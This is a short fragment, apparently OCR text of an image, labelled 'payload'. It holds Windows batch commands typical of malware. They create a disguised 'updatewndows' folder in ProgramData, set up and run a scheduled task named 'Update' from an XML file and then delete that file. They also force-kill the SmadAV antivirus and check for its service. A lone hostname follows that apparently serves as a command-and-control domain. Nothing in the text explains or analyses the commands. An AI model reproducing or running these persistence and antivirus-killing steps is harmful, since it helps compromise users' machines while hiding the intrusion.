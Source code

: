# payload

mkdir %systemdrive%\ProgramData\updatewndows

schtasks /create /xml %systemdrive%\ProgramData\updatewndows\Update.xml /tn Update
del %systemdrive%\ProgramData\updatewndows\Update.xml
schtasks /run /tn Update

taskkill /F /IM SmadAV.exe
sc query | find "SmadAV"


googleapp.bounceme.net
